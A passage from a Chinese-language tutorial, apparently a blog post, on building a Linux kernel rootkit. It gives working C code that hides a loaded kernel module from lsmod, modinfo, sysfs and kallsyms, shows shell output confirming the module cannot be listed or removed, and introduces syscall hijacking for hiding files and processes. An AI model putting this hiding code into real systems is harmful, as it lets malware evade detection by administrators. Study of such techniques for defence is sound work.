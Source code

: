 代码如下：

```c
static int __init rooty_init(void) {
    list_del_init(&__this_module.list);
    kobject_del(&THIS_MODULE->mkobj.kobj);
    //printk("rooty: module loaded\n");
    return 0;
}
```

结果:

```shell
root@kali:~/Documents/rootkit# insmod rooty.ko
root@kali:~/Documents/rootkit# lsmod |grep rooty.ko
root@kali:~/Documents/rootkit# modinfo rooty
modinfo: ERROR: Module rooty not found.
root@kali:~/Documents/rootkit# ls /sys/module|grep rooty
root@kali:~/Documents/rootkit# modprobe -c |grep rooty
root@kali:~/Documents/rootkit# grep rooty /proc/kallsyms 
```

我们无法找到有关模块`rooty.ko`的任何信息，需要注意的是，我们也无法像正常模块一样使用`rmmod`命令移除它。

### 1.3 小结

​	这部分中，我们知道了：

- 如何写一个内核模块
- 如何加载内核模块
- 如何查看内核信息
- 如何释放我们加载的内核模块
- 如何隐藏我们的内核模块

## 2 初探rootkit

以上的过程，我们实现了一个简单的`lkm`并将它隐藏的起来，现在么们将会使用这个这个隐藏的`lkm`实现一些功能。比如隐藏文件，进程等等，并且实现一系列的`rootkit`工具。接下来要做的事情是劫持系统调用，并实现文件隐藏。

### 2.1 系统调用

​	了解了系统调用之后，我们才知道操作系统实际的运行方式以及`rootkit`工作的基本要求，在这里不会赘述如何实现它，只会j简单的概述一下它们是什么。系统调用是程序和内核服务交互的方式。它们涵盖了进程管理，文件管理，设备管理，信息管理，通信（内核调度）的所有操作。在保护模式下，内核决定了一组系统调用以及其相关实现。所以系统调用号是不可逆的，而有关系统调用的定义存储在` /usr/include/x86_64-linux-gnu/asm/unistd_64.h `中，这里截取前面几个简单的看一下:

```c
#ifndef _ASM_X86_UNISTD_64_H
#define _ASM_X86_UNISTD_64_H 1

#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
#define __NR_close 3
#define __NR_stat 4
#define __NR_fstat 5
#define __NR_lstat 6
#define __NR_poll 7
#define __NR_lseek 8
#define __NR_mmap 9
#define __NR_mprotect 10
#define __NR_munmap 11
```
